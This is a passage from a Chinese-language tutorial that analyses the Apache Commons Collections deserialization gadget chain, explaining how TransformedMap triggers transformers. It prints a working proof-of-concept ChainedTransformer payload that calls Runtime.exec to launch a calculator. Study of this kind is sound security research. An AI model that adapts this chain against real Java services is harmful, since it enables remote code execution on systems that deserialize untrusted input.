 ```java
        outerMap.put("test", "test");
    }
}
```

两个关键点如下

首先调用 `decorate` 方法的时候对  `valueTransformer` 进行了附值，并返回了一个 TransformedMap 对象

![](Commons-Collections-反序列化利用链分析/image-20210209184506179.png)

后续在 `TransformedMap#transformValue` 调用了 `transform` 方法

![](Commons-Collections-反序列化利用链分析/image-20210209184258134.png)

debug 一下我们会发现，如果我们是这么写的，那么不会触发命令执行

```java
outMap.put("test", null);
```

上述代码虽然能够命令执行，但是不是反序列化利用链需要用到的命令执行的点，因此我们对上述代码进行改进，使其更接近我们反序列化利用链调用的方法，这里需要用到上文我们提到过的 checkSetValue

[**Level-2 payload**](https://wooyun.js.org/drops/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%8C%E6%95%B4%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90%E4%B8%8E%E8%B0%83%E8%AF%95.html)

```java
public class CommandDemo {
    public static void main(String[] args) {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("open -a Calculator")})});
        Map innerMap = new HashMap();
        innerMap.put(null, null);
        Map outerMap = TransformedMap.decorate(innerMap, null, chainDemo);
        Map.Entry entryDemo = (Map.Entry) outerMap.entrySet().iterator().next();
        entryDemo.setValue(null);
    }
}
```
